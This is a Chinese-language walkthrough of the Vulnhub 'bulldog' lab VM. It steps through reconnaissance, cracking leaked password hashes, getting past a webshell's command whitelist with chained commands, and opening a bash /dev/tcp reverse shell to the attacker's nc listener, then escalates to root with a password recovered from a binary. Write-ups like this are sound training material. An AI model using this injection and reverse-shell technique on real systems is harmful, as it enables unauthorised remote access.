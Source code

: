 ```yaml
---
title: Vulnhub-bulldog
---
```


# Vulnhub-bulldog

## 靶机信息

### 下载链接

[https://download.vulnhub.com/bulldog/bulldog.ova](https://download.vulnhub.com/bulldog/bulldog.ova)

### 靶机说明

牛头犬行业最近的网站被恶意的德国牧羊犬黑客破坏。这是否意味着有更多漏洞可以利用？你为什么找不到呢?

这是标准的Boot-to-Root,目标是进入root目录并看到祝贺消息。

### 目标

获得root权限和flag。

### 运行环境

靶机：NAT模式，靶机自动获取IP
攻击机：windows10、kali linux2021.1

## 信息收集

### 目标发现

```shell
arp-scan -l
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/bulldog1-1.png)


### 端口和服务识别

使用nmap扫描1-65535全端口，并做服务指纹识别，扫描结果保存到txt文件，命令：

```shell
nmap -p1-65535 -A 192.168.160.189 -oN bulldog.txt
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/bulldog1-3.png)

发现目标主机端口和服务

```shell
#端口 协议 后端服务
TCP 23 SSH open-ssl 7.2p2
TCP 80 HTTP WSGIServer Python 2.7.12
TCP 8080 HTTP WSGIServer Python 2.7.12
#操作系统
Linux 3.2-4.9
```

## 漏洞挖掘

直接访问网站首页，有链接，点击进入notice页面，未发现有价值的信息

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/bulldog1-2.png)

目录扫描`dirb http://192.168.160.189`

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/bulldog1-4.png)

得到多个目录，依此访问

`htttp://192.168.160.189/admin`,这是一个Django管理后台，需要用户名、密码登录，试了下没有常见弱口令，先不尝试暴破，去看看其他页面。

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/bulldog1-5.png)

`htttp://192.168.160.189/dev`该页面信息很多;主要信息：新系统不再使用php或任何CMS，而是使用Django框架开发。这意味着不太可能再找到网页的注入漏洞，只能找Django框架漏洞；网站不使用php，所以不用再找再找php漏洞或者写php木马了。新系统使用webshell管理。

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/bulldog1-6.png)

`http://192.168.160.189/dev/shell/`该页面提示要认证才可访问。

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/bulldog1-7.png)

查看以上各页面源码，发现`htttp://192.168.160.189/dev`每个Team Lead的邮箱和hash并且有明显的英文提示：We'll remove these in prod. It's not like a hacker can do anything with a hash。

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/bulldog1-8.png)

把每个hash值，到[https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash)尝试碰撞解密，最终解密出2个hash值：

Back End: nick@bulldogindustries.com

用户名：nick，密码：bulldog

Database: sarah@bulldogindustries.com

用户名：sarah，密码：bulldoglover

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/bulldog1-9.png)

用解密出来的密码登录后台

尝试登录扫描出来的23端口ssh都失败了，使用sarah、密码bulldoglover成功登录管理后台，但是没有编辑权限。

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/bulldog1-10.png)

再去访问webshell页面，已通过认证，可执行命令，这是一个命令执行界面

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/bulldog1-11.png)

webshell页面只能执行白名单的命令，尝试用；或者&&连接，执行多个命令，发现能成功绕过，下面开始直接执行反弹shell命令。

开启nc监听：`nc -lvnp 4444`
直接执行`ls && bash -i >& /dev/tcp/172.20.10.5/4444 0>&1`失败，server报错500。

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/bulldog1-12.png)

尝试echo命令先输出命令，再输入到bash，`echo "bash -i >& /dev/tcp/172.20.10.5/4444 0>&1" | bash`。

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/bulldog1-13.png)

反弹shell成功，并能成功查看/etc/passwd,发现id=1000以后的用户：bulldogadmin、django

## 提权

查找每个用户的文件（不显示错误） `find / -user bulldogadmin 2>/dev/null`

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/bulldog1-14.png)

发现值得关注的文件有：一个是note，一个是customPermissionApp。

```shell
/home/bulldogadmin/.hiddenadmindirectory/note
/home/bulldogadmin/.hiddenadmindirectory/customPermissionApp
```

打开note文本文件：发现提示webserver有时需要root权限访问。note文件中提示执行该文件，可以获得root权限，但通过ls查看文件权限只有读权限，并无法执行。

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/bulldog1-15.png)

打开customPermissionApp，看上去是可执行文件，使用strings打印其中的可打印字符：`strings /home/bulldogadmin/.hiddenadmindirectory/customPermissionApp`观察文件中只有这些字符，疑似可能与密码相关，英文单词包括：SUPER、 ulitimate、PASSWORD、youCANTget，这些都与最高权限账号相关，去掉H，变成一句通顺的英文句子：`SUPERultimatePASSWORDyouCANTget`,su命令无法执行，提示：must be run from a terminal,执行下面的语句即可

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/bulldog1-16.png)

执行`sudo su -`，获得root权限，获取flag

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/bulldog1-17.png)

```bash
#恭喜你完成了这个VM:D，还不错吧？
#告诉我你在twitter上的想法，我是@frichette\n
#据我所知，有两种方法可以扎根。你能找到另一个吗？
#也许续集会更具挑战性。直到下次，我希望你喜欢
Conngratulations on completing this VM :D That wasn't so bad was it?
Let me know what you thought on twitter, I'm @frichette_n
As far as I know there are two ways to get root. Can you find the other one?
Perhaps the sequel will be more challenging. Until next time, I hope you enjoyed
```